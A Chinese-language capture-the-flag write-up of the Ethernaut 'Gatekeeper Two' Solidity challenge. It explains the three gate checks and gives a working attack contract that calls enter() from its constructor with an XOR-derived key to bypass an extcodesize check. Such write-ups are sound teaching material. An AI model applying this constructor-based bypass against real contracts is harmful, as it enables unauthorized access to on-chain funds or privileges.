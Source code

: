 # Gatekeeper Two

## 题目

目标：修改entrant，即：成功调用`enter(bytes8 _gateKey)`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 分析

本道题要我们成功调用`enter(bytes8 _gateKey)`，那么就需要通过三个修饰器`gateOne`，`gateTwo`和`gateThree(_gateKey)`的检验。

### gateOne

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

这里需要我们理解msg.sender和tx.origin的区别。意思是要求：我们不可以直接调用，需要写一个合约进行调用

![](https://moe.photo/images/2022/12/24/-2022-12-24-145422.jpg)

### gateTwo

```solidity
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }
```

第一个知识点：caller()是指消息的调用者，可以是合约也可以是用户。结合gateOne，在本题中就只能是合约了。

这个modifier的意思是`extcodesize(caller())`需要等于0，那么就要合约当中没有任何内容，代码量为0。但我们要写攻击合约，肯定要写内容的，那么这个时候，就必须要在构造器中写攻击代码。在构造器里面写，发起了攻击，并且也通过了gateTwo的检验

### gateThree(_gateKey)

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }
```

1. `msg.sender`：我们的攻击合约地址
2. `(abi.encodePacked(msg.sender))`：编码我们的攻击合约地址
3. `(bytes8(keccak256(abi.encodePacked(msg.sender)))`：编码我们的攻击合约地址，并且取高8字节
4. `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`：编码我们的攻击合约地址，并且取高8字节，然后高位补0补齐至64位数。我们假设这个结果是X

`X ^ uint64(_gateKey)`的意思是：两个64位的数值进行异或。我们假设这个结果是Y

`Y == type(uint64).max)`：意思是Y的值需要等于uint64类型的最大值，即：FFFFFFFFFFFFFFFF

那么就是说，我们传入的_gateKey经过那一串的异或处理之后，要变成最大值（全1），异或结果得到全1。因为`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`是不可控的，我们只可以输入`_gateKey`，那么输入的`_gateKey`就要和`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`每一位数字都相反，才可以异或得到全1。

要达到这个目的，我们的`_gateKey`应该是`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`每一位都取反的结果，这样`_gateKey`再和`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`异或就是全1。举个例子：110 ^ _gateKey，gateKey=>110取反=>001。然后110 ^ 001=111。

因为solidity没有取反操作，但异或一个全为1的数可以达到相同的结果。在本题就是异或0xFFFFFFFFFFFFFFFF

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Hack{
    GatekeeperTwo gatekeeperTwo = GatekeeperTwo(0xc90c27F7431c86837933437ae4c94aA6f6B6591f);
    constructor(){
        bytes8 key = bytes8(keccak256(abi.encodePacked(address(this)))) ^  0xFFFFFFFFFFFFFFFF;
        address(gatekeeperTwo).call(abi.encodeWithSignature("enter(bytes8)",key));
    }
}

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 做题

获取题目实例，部署之后，查看entrant：成功被修改

![](https://moe.photo/images/2022/12/24/image-20221224144251630.png)

通过

![](https://moe.photo/images/2022/12/24/image-20221224144212536.png)
